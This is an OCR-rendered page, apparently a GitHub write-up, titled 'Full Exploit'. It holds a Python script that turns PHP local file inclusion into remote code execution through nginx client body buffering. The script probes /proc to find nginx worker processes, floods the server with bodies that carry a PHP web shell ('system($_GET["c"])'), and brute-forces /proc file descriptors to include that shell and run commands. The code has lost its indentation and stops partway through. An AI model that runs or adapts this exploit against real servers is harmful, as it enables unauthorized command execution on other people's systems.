 ## Full Exploit
```python
#!/usr/bin/env python3
import sys, threading, requests

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance
# see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details

URL = f'http://{sys.argv[1]}:{sys.argv[2]}/'

# find nginx worker processes
r  = requests.get(URL, params={
'file': '/proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
'file': '/proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
r  = requests.get(URL, params={
'file': f'/proc/{pid}/cmdline'
})

if b'nginx: worker process' in r.content:
print(f'[*] nginx worker found: {pid}')

nginx_workers.append(pid)
if len(nginx_workers) >= cpus:
break

done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
print('[+] starting uploader')
while not done:
requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
t = threading.Thread(target=uploader)
t.start()

# brute force nginx's fds to include body files via procfs
# use ../../ to bypass include's readlink / stat problems with resolving fds to `/var/lib/nginx/body/0000001150 (deleted)`
def bruter(pid):
global done

while not done:
print(f'[+] brute loop restarted: {pid}')
for fd in range(4, 32):
f = f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
r  = requests.get(URL, params={
'file': f,
'c': f'id'
})
if r.text:
print(f'[!] {f}: {r.text}')
```